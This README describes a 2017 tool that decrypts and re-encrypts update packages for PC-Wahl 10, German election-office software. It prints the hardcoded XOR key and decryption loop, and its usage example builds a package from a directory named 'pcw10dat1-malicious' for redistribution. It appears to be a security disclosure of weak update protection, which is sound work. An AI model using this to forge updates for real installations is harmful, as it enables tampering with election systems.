 # Walruss PC-Wahl 10 Update Decryptor

**PC-Wahl 10 Update Decryptor** is a program that can be used to extract and build update packages for PC-Wahl 10 installations that are deployed on computers used in election offices.

## Build

To build the program via Microsoft Developer Command Prompt, go to the source directory and execute the build.bat batch file. 

## Usage

The command line syntax is the following:

```
pcw_updatedecrypt.exe -x <input-file> <output-directory>
pcw_updatedecrypt.exe -c <input-directory> <output-file>
```

To **extract** a downloaded update package, unzip the downloaded file (e. g. pcw10dat1.zip) and pass the resulting encrypted package pcw10dat1.010 to pcw_updatedecrypt.exe using the `-x` flag: 

`pcw_updatedecrypt.exe -x pcw10dat1.010 pcw10dat1-extracted`

To **create** an update package, pass the path to the directory-structure to pcw_updatedecrypt.exe using the `-c` flag: 

`pcw_updatedecrypt.exe -c pcw10dat1-malicious pcw10dat1.010`

The resulting file must then be zipped again using any zip compatible program.

## PC-Wahl 10 update file encryption

The encrypted file (extension .010) has a 16 byte file-header. The first 4 bytes is a file magic field. The subsequent data is encrypted 0x2800 byte block-wise, using the following algorithm:

```c
char secret_key[] = {
   0x20, 0x6f, 0x17, 0x48, 0x40, 0x79, 0x0c, 0x0c, 
   0x98, 0x64, 0x03, 0x4d, 0x4e, 0xd3, 0x91, 0x25, 
   0x85, 0x0c,
   0x20, 0x6f, 0x17, 0x48, 0x40, 0x79, 0x0c, 0x0c, 
   0x98, 0x64, 0x03, 0x4d, 0x4e, 0xd3, 0x91, 0x25, 
   0x85, 0x0c };
   
[...]
   unsigned int i = 1;
   int counter = 0;
   char key;
   do {
      counter++;
      counter &= 0x0F;
      counter += 0x0D;
      key     = *(secret_key + counter - 3) & 0xFF;
      counter = i;
      counter = counter & 0xFF;
      key     = key ^ counter;
      
      result[i-1] = input[i-1] ^ key;
      i++;
   } while(i <= 0x2800);
[...]
```

## Authors

PC-Wahl 10.0 Update-Package Decrypter (c) 2017 
by Thorsten (THS) Schroeder <ths [at] ccc [dot] de>

